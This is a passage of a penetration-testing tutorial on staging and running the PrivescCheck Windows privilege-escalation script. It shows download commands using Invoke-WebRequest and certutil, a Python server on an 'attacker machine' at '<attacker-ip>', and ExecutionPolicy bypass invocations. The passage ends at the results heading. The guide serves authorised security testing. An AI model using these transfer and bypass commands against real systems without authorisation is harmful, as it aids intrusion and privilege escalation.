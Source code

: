 ### Common ways to transfer the file (examples)

**A. Using PowerShell `Invoke-WebRequest` (recommended when PowerShell is allowed):**

```powershell
# Download raw script into Temp
powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1' -OutFile 'C:\Windows\Temp\PrivescCheck.ps1'"
```

**B. Using CertUtil (native Windows binary download):**

```powershell
certutil -urlcache -f "https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1" C:\Windows\Temp\PrivescCheck.ps1
```

**C. Using a hosted Python HTTP server from attacker machine:**

```bash
# On attacker
python3 -m http.server 8080
# On target (PowerShell)
powershell -Command "Invoke-WebRequest -Uri 'http://<attacker-ip>:8080/PrivescCheck.ps1' -OutFile 'C:\Windows\Temp\PrivescCheck.ps1'"
```

---

## 4) Running PrivescCheck on the target

PowerShell execution policy may block scripts. Use the bypass flag to run one-off:

```powershell
# Dot-source & invoke (loads the script into current session then runs function)
powershell -ExecutionPolicy Bypass -NoProfile -Command ". 'C:\Windows\Temp\PrivescCheck.ps1'; Invoke-PrivescCheck"

# OR run directly
powershell -ExecutionPolicy Bypass -NoProfile -File 'C:\Windows\Temp\PrivescCheck.ps1'
```

* `-ExecutionPolicy Bypass` avoids the policy for this invocation.
* `-NoProfile` avoids loading user profiles (safer and quieter).
* If output is noisy, redirect to file:

  ```powershell
  powershell -ExecutionPolicy Bypass -NoProfile -Command ". 'C:\Windows\Temp\PrivescCheck.ps1'; Invoke-PrivescCheck" > C:\Windows\Temp\PrivescCheck-output.txt
  ```

**Run as Admin?** Some checks require elevated rights to access certain areas (e.g., SERVICE ACLs, secrets). If you don’t have admin, PrivescCheck will still show many useful vectors.

---

## 5) Interpreting results — common findings
